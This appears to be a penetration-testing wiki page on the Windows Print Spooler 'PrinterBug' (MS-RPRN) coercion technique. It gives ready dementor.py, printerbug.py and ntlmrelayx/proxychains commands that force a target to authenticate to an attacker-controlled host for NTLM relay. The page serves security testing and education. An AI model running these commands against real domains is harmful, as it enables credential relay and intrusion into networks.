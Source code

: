 # MS-RPRN abuse \(PrinterBug\)

## Theory

Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controlling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments \([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)\).

The "specific call" mentioned above is the `RpcRemoteFindFirstPrinterChangeNotificationEx` notification method, which is part of the MS-RPRN protocol. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

{% hint style="info" %}
The attacker needs a foothold on the domain \(i.e. compromised account\) for this attack to work since the coercion is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) \(Powershell\) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) \(Python\).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) \(Python\), [dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) \(Python\), the adapted original .NET code \([here](https://github.com/leechristensen/SpoolSample)\).

{% tabs %}
{% tab title="dementor" %}
Trigger the spooler service

```bash
dementor.py -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD $ATTACKER_IP $TARGET
```
{% endtab %}

{% tab title="printerbug" %}
Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```text

```
{% endtab %}

{% tab title="ntlmrelayx" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../lm-and-ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy.

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains dementor.py -d $DOMAIN -u $DOMAIN_USER $ATTACKER_IP $TARGET
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: the coerced NTLM authentication will be made through SMB. This is important because it restricts the possibilites of [NTLM relay](../lm-and-ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMBv2 to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}



